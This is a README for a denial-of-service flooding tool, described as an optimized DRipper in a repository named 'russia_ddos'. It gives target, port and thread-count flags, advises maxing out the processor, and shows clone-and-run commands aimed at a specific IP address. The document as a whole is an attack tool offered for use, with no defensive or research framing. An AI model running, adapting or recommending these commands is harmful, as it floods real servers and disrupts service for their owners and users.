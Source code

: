## Description

This is an optimized version of DRipper. Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54, you can see there a lot of cons like extra requests to Facebook and validator.w3.com, trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet). Also the old version is inefficient: you need run several processes to have your processor busy.


## Usage
Ensure you have Python 3 installed. Then clone this repo and run main.py with params you need:

-s - IP;

-p - port (default 80);

-t - threads count. The most important setting. Try to keep the processor busy up to 100%.

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python -u main.py -s 213.24.76.23 -p 80 -t 1000
# OR
python3 -u main.py -s 213.24.76.23 -p 80 -t 1000
```
